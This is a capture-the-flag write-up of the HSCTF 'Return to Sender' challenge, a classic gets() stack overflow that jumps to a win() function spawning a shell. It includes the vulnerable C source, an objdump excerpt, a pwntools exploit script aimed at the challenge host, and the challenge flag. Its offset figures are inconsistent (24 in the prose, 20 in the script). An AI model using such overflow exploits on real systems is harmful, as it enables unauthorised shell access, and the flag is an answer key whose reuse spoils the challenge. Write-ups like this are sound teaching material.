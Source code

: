 # Return to Sender

## Challenge

"Who knew the USPS could lose a letter so many times?

nc pwn.hsctf.com 1234

6/3/19 7:34 AM: Updated binary, SHA-1: 104fb76c3318fb44130c4a8ee50ac1a2f52d4082 return-to-sender"

You can download the problem files here [return-to-sender](return-to-sender) [return-to-sender.c](return-to-sender.c)

## Process

Return to sender is title that implies a buffer overflow attack. I opened up the .c file and looked for anything interesting.

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void win() {
	system("/bin/sh");
}

void vuln() {
	char dest[8];
	printf("Where are you sending your mail to today? ");
	gets(dest);
	printf("Alright, to %s it goes!\n", dest);
}

int main() {
	setbuf(stdout, NULL);
	gid_t gid = getegid();
	setresgid(gid,gid,gid);
	vuln();
	return 0;	
}
```

I immediately noticed the line

```
	gets(dest);
```

which is vulnerable to a buffer overflow attack. I also noticed

```
void win() {
	system("/bin/sh");
}
```

This tells us that we want to jump into the function win(). I ran gbd on the file and supplied more than enough characters to cause errors. I inputted letters in groups of four alphabetically to make it easier to determine how large of an offset I'll need in my exploit script. 

![Fuzzing the file](Fuzz.JPG)

0x46464646 overflowed into the stack pointer. 0x46 in hexadecimal is the letter "F" in ascii. That means 24 characters will cause a bufferoverflow, and the last four characters will overwrite the stack pointer.

I than ran an object dump on the given elf file to find the address of the function win(). You can look at the entire dump here [objectdump-d.txt](objectdump-d.txt).

```
$ objectdump -d return-to-sender > objectdump-d.txt
```

The important part of the dump is the address of win, which is 0x080491b6

```
080491b6 <win>:
 80491b6:	55                   	push   %ebp
 80491b7:	89 e5                	mov    %esp,%ebp
 80491b9:	53                   	push   %ebx
 80491ba:	83 ec 04             	sub    $0x4,%esp
 80491bd:	e8 d1 00 00 00       	call   8049293 
```

I wrote this python script to perform the bufferoverflow [payloader.py](payloader.py) and ran it. Afterwards I ran ls and cat to get the flag.

```
from pwn import * 
connection = remote('pwn.hsctf.com', 1234)
#through fuzzing we found buffer
offset = 20
#through objdump -d we found the address of win as 0x080491b6
#0x080491e1 is address of vuln 
address = p32(0x080491b6)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
#after performing the buffer overflow we still need to cat the flag
connection.interactive()

#The flag is hsctf{fedex_dont_fail_me_now}
```

![Flag](Flag.JPG)

The flag is hsctf{fedex_dont_fail_me_now}